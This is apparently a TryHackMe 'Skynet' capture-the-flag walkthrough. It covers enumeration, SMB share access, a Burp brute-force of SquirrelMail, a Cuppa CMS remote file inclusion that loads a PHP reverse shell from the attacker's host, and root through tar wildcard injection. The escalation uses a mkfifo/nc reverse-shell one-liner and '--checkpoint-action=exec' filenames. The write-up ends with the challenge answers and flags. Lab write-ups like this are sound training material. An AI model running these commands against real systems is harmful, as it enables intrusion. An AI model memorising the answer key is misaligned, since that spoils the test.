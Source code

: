 #tryhackme #ctf 
# Skynet
---

## Nmap
- 22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
- 80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
- 110/tcp open  pop3        Dovecot pop3d
- 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
- 143/tcp open  imap        Dovecot imapd
- 445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

## Gobuster
- /index.html
- /admin
- /css
- /js
- /config
- /ai
- /squirrelmail

## Enum4linux
`enum4linux -a <machine-ip>`
- *Found 2 shares: **anonymous**, **milesdyson** *

## Smbclient
Log into anonymous using smbclient
`smbclient \\\\<ip>\anonymous`

- *Found 1 file: attention.txt*
>All system users are required to change their passwds

- *Found 1 dir: /logs/ with 3 log files:
	- *log1.txt*
	- *log2.txt*
	- *log3.txt*
-   *log2.txt and log3.txt are empty*

Download log1.txt to attacker machine using
`get log1.txt`

Open the file
- *Looks like a passwd list for brute-force*

Password Complexity: Disabled
Minimum Password Length: 5

Visit \<machine-ip>/squirrelmail and go to login.php
Open burpsuite and use username: milesdyson and log1.txt as payload for intruder

- *Found password: **cyborg007haloterminator** *
- *Log in using the found password*

Read email from skynet
- *Found smb password **)s{A&2Z=F^n_E.B** *
`smbclient //<ip>/milesdyson -U milesdyson` 

- *Found /notes/important.txt*

Open the file
- *Found a hint to a web dir: /45kra24zxs28v3yd*
- *Visit the found dir on \<machine-ip>/45kra24zxs28v3yd
- *Found nothing exploitable. Maybe a misdirection*

Running dirb/gobuster/dirsearch on this dir
`dirb http://10.10.185.215/45kra24zxs28v3yd`
- /administrator

Visit \<machine-ip>/45kra24zxs28v3yd/administrator
- *Found cuppa cms*

Search for exploit on cuppa CMS using Searchsploit
`searchsploit cuppa`

- *Found remote file inclusion vulnerability*

Start a local server on attacker machine
`python3 -m http.server 80`

Also start a netcat listener on attacker machine in another terminal:
`nc -lvnp <port>`

Exploit the cuppa vuln:
`curl http://<ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<tun0-ip:port>/php-reverse-shell.php`

- *Gained shell ;)*

Upgrage shell using ([[Linux-PrivEsc#Upgrade Shell]])
`python -c 'import pty;pty.spawn("/bin/bash")'`
`export TERM=xterm`
`stty raw -echo;fg`

Change directory to milesdyson and get the first flag
`cd /home/milesdyson`
`cat user.txt`

- *[FLAG 1]*

- *Found backups/backup.sh in milesdyson's home directory*
`cat /home/milesdyson/backups/backup.sh`

>#!/bin/bash
>cd /var/www/html
>tar cf /home/milesdyson/backups/backup.tgz *

It changes directory into /var/www/html and compresses all the files
This script is run as cronjob by root (Very interesting!)
Change it somehow to escalate privileges ([[Linux-PrivEsc#Cronjobs]])

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ip> <port> >/tmp/f" > shell.sh`
`touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"`
`touch "/var/www/html/--checkpoint=1"`

Now wait for cronjob to run
- *Gained root*

`cat /root/root.txt`
- *[FLAG 2]*

---

1. What is Miles password for his emails?
**cyborg007haloterminator**


2. What is the hidden directory?
**/45kra24zxs28v3yd**


3. What is the vulnerability called when you can include a remote file for malicious purposes?
**Remote file inclusion**


4. What is the user flag?
**7ce5c2109a40f958099283600a9ae807**


5. What is the root flag?
**3f0372db24753accc7179a282cd6a949**

---
